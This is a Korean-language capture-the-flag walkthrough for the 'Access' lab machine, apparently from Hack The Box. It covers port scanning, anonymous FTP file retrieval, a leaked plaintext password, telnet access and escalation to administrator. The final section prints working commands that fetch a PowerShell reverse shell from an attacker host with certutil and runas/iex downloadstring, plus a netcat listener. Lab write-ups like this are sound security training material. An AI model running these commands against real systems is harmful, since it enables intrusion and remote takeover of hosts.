










# Access

## HOST IP: 10.129.52.215

Performed an Nmap scan to identify open ports and running services on the target host(10.129.52.215)

```bash
nmap -Pn -p- -n --open --max-retries 1 --min-rate 2000 10.129.52.215

PORT   STATE SERVICE
21/tcp open  ftp
23/tcp open  telnet
80/tcp open  http

nmap -sV -sC -oA nmap/Access 10.129.52.215 -p 21,23,80

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst:
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: MegaCorp
|_http-server-header: Microsoft-IIS/7.5
| http-methods:
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```

21 FTP, 23 TELNET, 80 HTTP
Anonymous FTP login allowed try to login Anonymous

```bash
ftp> get backup.mdb
local: backup.mdb remote: backup.mdb
200 PORT command successful.
File may not have transferred correctly.

ftp> bin
200 Type set to I.

ftp> get backup.mdb
local: backup.mdb remote: backup.mdb
200 PORT command successful.
226 Transfer complete.
5652480 bytes received in 00:08 (615.93 KiB/s)

ftp> get Access\ Control.zip
local: Access Control.zip remote: Access Control.zip
200 PORT command successful.
226 Transfer complete.
10870 bytes received in 00:00 (17.04 KiB/s)
```

ftp 접속해서 Access Control.zip backup.mdb 다운

backup.mdb에서 데이터 추출





알아낸 비밀번호로 Access Control.zip 압축해제







john이 security 계정정보가 바뀐것에 대한 메일내용이 모함되어있음  
The password for the “security” account has been changed to 4Cc3ssC0ntr0ller  
계정 정보를 사용해서 telnet접속


```cmd
C:\Users\security\Desktop>type user.txt
303dce8e274e7a8b81e95bca4fe5d9cf
```

## POST-EXPLOIT



관리자 계정(ACCESS\Administrator)으로 runas 실행하는 구조



해당 계정의 자격 증명이 윈도우 자격 증명 관리자에 저장돼 있음

> https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1  
> 윈도우 리버스셸 다운 후 대상호스트 윈도우에 전송해서 관리자 권한 리버스셸 연결 시도

```bash
# attacker kali
wget https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

#Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.76 -Port 9999 파일 아래에 해당 코드 추가
python -m http.server 8000
nc -nlvp 9999

# target host
certutil -urlcache -f http://10.10.14.76:8000/Invoke-PowerShellTcp.ps1 C:\Users\security\Desktop\Invoke-PowerShellTcp.ps1

runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.76:8000/Invoke-PowerShellTcp.ps1')"

```


관리자 권한을 얻었다



